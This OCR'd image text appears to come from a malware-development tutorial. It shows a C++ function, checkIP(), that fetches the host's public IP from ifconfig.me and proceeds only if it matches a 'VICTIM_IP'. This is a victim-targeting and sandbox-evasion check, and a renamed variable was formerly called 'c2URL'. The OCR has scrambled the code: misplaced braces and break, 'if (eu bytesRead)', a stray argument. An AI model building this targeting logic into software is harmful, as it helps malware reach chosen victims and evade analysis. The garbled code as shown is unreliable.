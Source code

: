 • Website URL (formerly the c2URL variable)

• Internet Stream (formerly the stream variable)

· String variable (formerly the s variable)

• Buffer Space (formerly the **Buff** variable)

• Bytes Read (Formerly the unsigned long **bytesRead** variable)

· Lastly, the **URLOpenBlockingStreamA** Function

Integrating This into our Code

This translates to an actual function that looks so:

> **BOOL checkIP() {**

> **// Declare the website URL that we would like to visit**

> **const char* websiteURL= “&lt;https://ifconfig.me/ip&gt;";**

> **// Create an Internet stream to access the website IStream stream;**

> **// Create a string variable where we will store the string data received from the website string s;**

> **// Create a space in memory where we will store our IP Address**

> **char buff\[35];**

> **unsigned long bytesRead;**

> **// Open an Internet stream to the remote website**

> **URLOpenBlockingStreamA(e, websiteURL, &amp;stream, 0, 0);**

> **// While data is being sent from the webserver, write it to memory**

> **while (true)**

> **stream-&gt;Read (buff, 35, &amp;bytesRead);**

> **if (eu bytesRead) {**

> **}**

> **break;**

> **s.append(buff, bytesRead);**

> **// Compare if the string is equal to the targeted victim’s IP. If true, return the check is successful. Else, fail the check.**

> **if (s == “VICTIM\_IP”) {**

> **return TRUE;**

> **}**

> **else {**

> **return FALSE;**

> **}**
